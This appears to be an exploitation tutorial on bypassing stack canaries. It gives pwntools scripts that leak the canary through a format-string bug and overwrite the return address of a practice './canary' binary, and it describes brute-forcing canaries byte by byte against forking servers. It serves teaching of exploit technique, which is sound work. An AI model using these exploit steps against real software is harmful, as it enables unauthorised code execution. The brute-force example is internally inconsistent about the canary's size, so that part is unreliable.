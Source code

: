 
# **Canary Bypass**

#### **Overview**
Stack canaries are security mechanisms that prevent buffer overflow attacks by placing a known value (the canary) between the buffer and the return address. If the canary is modified, the stack protector detects the change and terminates the program. To bypass this, an attacker must identify the canary value and craft a payload that preserves it while overwriting the return address.

#### **Steps to Exploit**
1. **Fuzzing the Binary**: Leak the stack canary by sending format strings to identify its location in the stack.
2. **Crafting the Payload**: Once the canary is identified, craft a payload that:
   - Overflows the buffer to reach the return address.
   - Includes the correct canary value.
   - Replaces the return address with the address of a function (e.g., `hacked()`).

#### **Fuzzing Script (Leak Canary)**
```python
from pwn import *

elf = context.binary = ELF('./canary', checksec=False)

# Fuzz to leak the canary value
for i in range(100):
    try:
        p = process(level='error')
        p.sendline(f'%{i}$p'.encode())  # Format string to leak stack value
        p.recvline()
        result = p.recvline().decode()
        if result:
            print(f"{i}: {result.strip()}")
    except EOFError:
        pass
```

#### **Exploit Code (32-bit Example)**
```python
from pwn import *

# Start the program
exe = './canary'
elf = ELF(exe, checksec=False)
context.binary = elf

# Leak the canary value
io = process(exe)
io.sendlineafter(b'!', b'%23$p')  # Adjust format string for canary leak
canary = int(io.recvline().strip(), 16)
info(f"Canary: {hex(canary)}")

# Craft payload
payload = flat(
    b'A' * 64,          # Padding to reach canary
    canary,             # Leaked canary value
    b'A' * 12,          # Padding to return address
    elf.symbols['hacked']  # Address of the target function
)

# Send the payload
io.sendlineafter(b':P', payload)

# Interact with the shell
io.interactive()
```

#### **Key Points**
- **Fuzzing** is used to identify the canary’s position in memory.
- Once the canary is identified, it must be preserved to avoid triggering the stack protector.
- The attacker then **overwrites the return address** to redirect execution to a controlled function.

## **Bruteforcing a Stack Canary**

#### **Overview**
When a program starts, it generates a **canary** (a special value placed on the stack to detect buffer overflows). If the program forks, the child process inherits the same canary. An attacker can exploit this by brute-forcing the canary value byte by byte in a child process, using crashes as an oracle to guess each byte. This technique is often useful in scenarios where the program reads user input (e.g., `read()` or `recv()`) and doesn't append a null byte, such as in **fork-and-accept** servers.

#### **Steps to Brute-Force the Canary**
1. **Fork the Process**: Spawn a child process to work in parallel with the parent.
2. **Send Input to the Child Process**: This input must be crafted to overwrite the canary byte by byte.
3. **Observe the Behavior**: If the child process crashes, the canary byte is incorrect. If no crash occurs, the byte is correct.
4. **Repeat for All Bytes**: This process is repeated for each byte of the canary.

#### **Example Breakdown**
1. **Initial Input**: Send `N` bytes (padding) followed by a guess for the first byte of the canary. For example:
   ```
   Buffer: [N Bytes] + [0x00] (Check if no crash)
   ```
   If no crash occurs, the first byte is correct. If the program crashes, move on to the next byte (0x01, 0x02, etc.).
   
2. **Guessing All Bytes**: This brute-forcing is repeated for each byte of the canary, continuing until all 8 bytes (or more, depending on the architecture) are found.

#### **Example Brute-Forcing Process**

Let’s say the buffer is of size `N` bytes, and we are trying to brute-force a 4-byte canary.

1. **Step 1**: Send the input with the first byte as `0x00`:
   ```
   Buffer = [N Bytes] + [0x00]
   ```
   If the program doesn’t crash, we know that the first byte is correct. If it crashes, increment to the next byte, `0x01`.

2. **Step 2**: Repeat for each subsequent byte:
   ```
   Buffer = [N Bytes] + [0x00] + [0x01] (Check for crash)
   Buffer = [N Bytes] + [0x00] + [0x02] (Check for crash)
   ...
   ```
   
3. **Step 3**: Once we have the correct byte for the first position (e.g., `0x51`), we continue to the next byte and repeat the process:
   ```
   Buffer = [N Bytes] + [0x51] + [Next byte]
   ```

#### **Final Example (Multiple Bytes)**

After brute-forcing, the correct canary value might look like this:
```
Buffer = [N Bytes] + [0x00] + [0x51] + [0xFE] + [0x0A] + [0x31] + [0xD2] + [0x7B] + [0x3C]
```

#### **Important Considerations**
- **Fork-and-Accept Servers**: This technique works well when the server forks for each new connection and when the user input doesn’t append a NULL byte.
- **Crashes as Oracle**: The program’s crash behavior provides feedback on the correctness of the guess.
- **Repeat for Each Byte**: Since the canary is typically 8 bytes, the process involves 8 rounds of bruteforcing.
- **Performance**: This method can be slow, as each byte needs to be tested individually.

---

This method relies on the idea of exploiting process forking and observing program crashes to guess each byte of the canary. It’s particularly effective in **networked services** or **multi-threaded programs** where each new connection results in a new child process inheriting the same canary.
